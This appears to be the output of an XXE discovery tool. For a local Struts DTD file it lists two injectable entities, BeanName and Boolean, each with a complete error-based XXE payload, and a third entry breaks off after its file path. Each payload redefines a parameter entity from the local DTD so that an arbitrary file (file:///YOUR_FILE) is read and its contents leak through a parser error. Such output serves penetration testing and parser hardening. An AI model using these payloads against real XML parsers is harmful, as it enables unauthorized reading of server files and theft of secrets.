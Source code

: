  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd`

**Injectable entity:** `BeanName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd">

    <!ENTITY % BeanName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd`

**Injectable entity:** `Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd`

